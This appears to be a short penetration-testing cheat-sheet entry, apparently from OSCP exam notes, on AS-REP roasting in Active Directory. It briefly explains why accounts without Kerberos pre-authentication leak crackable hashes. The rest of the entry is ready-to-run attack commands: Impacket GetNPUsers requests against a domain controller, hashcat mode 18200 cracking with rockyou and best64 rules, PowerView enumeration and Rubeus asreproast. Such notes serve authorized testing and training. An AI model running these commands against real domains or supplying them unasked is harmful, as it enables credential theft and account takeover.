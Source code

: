 It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled. Many vendor installation guides specify that their service account be configured in this way. The authentication service reply (AS_REP) is encrypted with the account’s password, and any domain user can request it
```bash
impacket-GetNPUsers -dc-ip <IP> -request  oscp.exam/-format hashcat
impacket-GetNPUsers oscp.exam/user -dc-ip <IP> -format hashcat
```

```bash
Impacket-GetNPUsers INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

```bash
hashcat -m 18200 crackme.txt ~/rockyou.txt -O -r ~/opt/wordlists/best64.rule
```
#### Windows Host
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

```powershell
.\Rubeus.exe asreproast /nowrap
```